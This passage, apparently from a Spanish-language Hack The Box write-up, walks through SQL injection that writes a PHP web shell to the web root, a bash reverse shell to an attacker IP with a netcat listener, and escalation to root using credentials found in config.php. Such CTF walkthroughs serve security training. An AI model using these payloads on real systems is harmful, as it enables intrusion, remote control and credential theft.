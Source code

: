 <p align="justify">
Ahora que hemos confirmado que podemos cargar archivos mediante una Inyección SQL, nuestro objetivo es depositar un archivo PHP, ya que el servidor puede interpretar este tipo de archivos.

Este archivo PHP nos permitirá enviar comandos a través de una variable llamada "**cmd**":
</p>

```php
union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/file.php"-- -
```

<p align="justify">
Ahora que hemos logrado una ejecución remota de comandos, podemos establecer una conexión inversa utilizando el siguiente recurso para obtener acceso a la máquina víctima.
</p>

- [Reverse Shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```sql
& = %26

?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.2/443 0>%261"

## Modo escucha - VM Atacante
nc -nvlp 443

```

<p align="justify">
Como se puede observar, hemos obtenido una Shell interactiva que nos permite navegar y buscar las banderas que necesitamos. 
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/0c3ed1c8-c9e9-4cf5-be06-6153e5f4dfcf">
</p>

> -------------------------

## Etapa de Escalada de Privilegios

<p align="justify">
  En la fase anterior, durante la enumeración de directorios, recordemos que encontramos un archivo llamado <mark style="background: #ADCCFFA6;">**config.php**.</mark> Sin embargo, no pudimos acceder a su contenido a través del navegador. Ahora que tenemos acceso a la máquina objetivo, vamos a intentar listar su contenido.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/48ab4128-8345-42dd-a714-90ffa55ecc72">
</p>

<p align="justify">
Al explorar su contenido, podemos identificar un usuario y una contraseña que podríamos emplear para elevar nuestros privilegios.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/21c0084b-a804-49ab-8318-26dd231a4de0">
</p>

<p align="justify">
La credencial es válida y ya estamos como usuario <mark style="background: #FF5582A6;">root</mark>.
</p>

>**VALIDATION - PWNED!**
